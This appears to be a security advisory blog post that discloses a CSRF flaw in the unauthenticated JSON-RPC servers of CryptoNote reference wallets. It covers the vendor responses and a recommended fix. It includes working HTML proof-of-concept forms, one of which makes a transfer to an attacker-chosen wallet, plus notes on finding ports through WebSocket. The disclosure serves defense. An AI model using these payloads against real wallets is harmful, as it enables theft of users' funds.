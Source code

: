 ```yaml
---
layout: post
title: Unauthenticated JSON-RPC API allows takeover of CryptoNote RPC wallets
---
```


![Cryptonote-img]({{ site.url }}/assets/CryptoNote_OnFire_200s.gif){: .center-image }

The reference implementation of CryptoNote wallets start a JSON-RPC server
listening on a localhost port that allows an attacker to execute wallet
functions due to a lack of authentication.

An attacker may exploit this vulnerability to steal cryptocurrency from
vulnerable wallets by directing users to visit a webpage hosting the exploit.

# Affected Software

All cryptocurrencies that use the reference CryptoNote walletd and simplewallet
implementations are vulnerable. Notable coins include Bytecoin and Aeon.

# Description

The reference CryptoNote repository comes with two different wallets,
`simplewallet` and `walletd`. Both wallets have JSON-RPC servers that are
vulnerable to similar attacks. Even though the JSON-RPC servers are listening
on localhost, they can be exploited via CSRF.

## walletd

`walletd` has the JSON-RPC server enabled by default. The wallet binds to port
8070 by default.

The below proof-of-concept demonstrates the vulnerability by creating a new
address in the walletd container.

```
<html>
<form action=http://127.0.0.1:8070/json_rpc method=post enctype="text/plain" >
	<input name='{"params":{},"jsonrpc":"2.0","method":"createAddress", "ignore_me":"' value='test"}'type='hidden'>
<input type=submit>
</form>
</html>
```

## simplewallet

`simplewallet` does not have the JSON-RPC server enabled by default. Enabling
the server requires the `--rpc-bind-port` flag when invoking `simplewallet`.

The below proof-of-concept demonstrates the vulnerability by making a transfer
from the running wallet to an attacker controlled wallet. Change the
INSERT_AMOUNT and INSERT_WALLET_ADDRESS parameters when testing the POC. We
assume that `simplewallet` was invoked with `--rpc-bind-port 8111`.

```
<html>
<form action=http://127.0.0.1:8111 method=post enctype="text/plain" >
        <input name='{"jsonrpc":"2.0","method":"transfer","params":{"destinations":[{"amount":INSERT_AMOUNT,"address":"INSERT_WALLET_ADDRESS"}],"fee":100,"mixin":0,"unlock_time":0}, "ignore_me":"' value='test"}'type='hidden'>
<input type=submit>
</form>
</html>
```

## Notes on exploitation

While the proof-of-concept code assumes that the server is listening on a
specific port, changing the running port does prevent exploitation. It is
trivial to enumerate open ports with WebSocket.

The proof-of-concept uses a HTML form to demonstrate the attack. However,
exploiting this over Javascript is not an issue due to a lack of CSRF
protection.

# Vendor Response

Attempts have been made to reach out to the CryptoNote and Bytecoin developers
without any success.

Turtlecoin has patched the issue by adding authentication in
[commit 4949e91][turtlecoin-commit].

Aeon has acknowledged the report and is not currently implementing a fix as
they are in the process of rebasing their code. There is minimal risk to Aeon
as `simplewallet` in not used in RPC mode for any official clients.

# Recommended Fix

The JSON-RPC servers should be patched to require authentication on every
request. It is recommended that all forks of CryptoNote and ByteCoin apply
a patch similar to the Turtlecoin fix.

# Credits

This issue was discovered by Ayrx.

Shoutout to @tildalwave for the GIF!

[turtlecoin-commit]: https://github.com/turtlecoin/turtlecoin/commit/4949e91e09bc1d16132090aef4dc09cc6ca09fa1
